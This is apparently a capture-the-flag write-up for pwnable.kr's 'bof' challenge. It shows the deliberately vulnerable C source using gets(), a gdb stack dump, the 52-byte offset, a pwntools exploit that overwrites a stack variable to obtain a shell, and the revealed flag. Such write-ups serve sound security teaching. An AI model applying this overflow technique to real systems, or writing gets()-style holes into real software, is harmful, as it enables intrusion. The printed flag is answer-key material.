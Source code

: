 # welcome

## Description

bof - 5pt

> Nana told me that buffer overflow is one of the most common software vulnerability. Is that true? <br><br>
> Download : http://pwnable.kr/bin/bof
> Download : http://pwnable.kr/bin/bof.c <br><br>
> Running at : nc pwnable.kr 9000

## Solution

### Background

#### Buffer Overflow

A buffer overflow occurs when a program attempts to write more data to a buffer than it can hold. This can cause the program to crash, or it can be used to overwrite data in the program's memory.


### Exploit

This time, we are given two files: `bof` - the binary file, and `bof.c` - the source code. Let's take a look at the source code:

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

The program calls ```gets``` to read input from the user. ```gets``` is a dangerous function because it does not check the length of the input, so it can cause a buffer overflow. The program also checks if the input is equal to `0xcafebabe`, and if it is, it executes the command `/bin/sh`. This means that we need to overwrite the value of `key` with `0xcafebabe` in order to get a shell.

Using ```gdb``` to debug the program, and giving `AAAA` as input, we can see the stack:

```
(gdb) x/100x $esp

0xffffd0f0:	0xffffd10c	0x00000020	0x00000000	0xffffd2e4
0xffffd100:	0x00000000	0x00000000	0x01000000	0x41414141
0xffffd110:	0xf7fc4500	0x00000000	0xf7d904be	0xf7f9e054
0xffffd120:	0xf7fbe4a0	0xf7fd6f10	0xf7d904be	0x75f7b900
0xffffd130:	0xffffd170	0xf7fbe66c	0xffffd158	0x5655569f
0xffffd140:	0xdeadbeef	0x00000000	0xf7f9e000	0xf7e9694b
```

The adress of `key` is `0xffffd140`, and the adress of `overflowme` is `0xffffd10c`. We can see that the distance between them is `52` bytes. This means that we need to write `52` bytes of junk data, followed by `0xcafebabe` in order to overwrite the value of `key`.

```python
from pwn import *

con = remote('pwnable.kr', 9000)

payload = b'\x61' * 52 + p32(0xcafebabe)

con.sendline(payload)

con.interactive()
```

Running the script, we get a shell:

```
$ python3 exploit.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ cat flag
daddy, I just pwned a buFFer :)
```